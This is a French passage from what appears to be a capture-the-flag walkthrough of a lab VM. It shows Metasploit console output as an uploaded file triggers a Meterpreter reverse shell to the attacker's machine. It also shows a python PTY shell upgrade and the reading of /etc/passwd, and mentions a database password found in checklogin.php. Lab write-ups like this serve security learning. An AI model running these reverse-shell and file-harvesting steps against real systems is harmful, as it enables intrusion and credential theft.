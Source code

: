 Le fait d'appeler le fichier situé dans le répertoire /uploads amorce la connexion.

```console
msf exploit(multi/handler) > [*] Sending stage (37543 bytes) to 192.168.56.102
[*] Meterpreter session 1 opened (192.168.56.101:12345 -> 192.168.56.102:48731) at 2018-01-02 03:04:05 +0100

msf exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                   Information                          Connection
  --  ----  ----                   -----------                          ----------
  1         meterpreter php/linux  apache (48) @ localhost.localdomain  192.168.56.101:12345 -> 192.168.56.102:48731 (192.168.56.102)
```

Il ne nous reste plus qu'à créer un [pseudo-terminal Bash](https://netsec.ws/?p=337) avec le module PTY.

```console
msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer    : localhost.localdomain
OS          : Linux localhost.localdomain 2.6.32-573.8.1.el6.x86_64 #1 SMP Tue Nov 10 18:01:38 UTC 2015 x86_64
Meterpreter : php/linux
meterpreter > shell
Process 2047 created.
Channel 0 created.

id
uid=48(apache) gid=48(apache) groups=48(apache)

python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.1$ 
```

Partons à la recherche de fichiers intéressants... 
le fichier checklogin.php contient par exemple un mot de passe pour se connecter à la base de données MySQL.

```console
bash-4.1$ pwd
pwd
/var/www/html/fristi/uploads

bash-4.1$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
```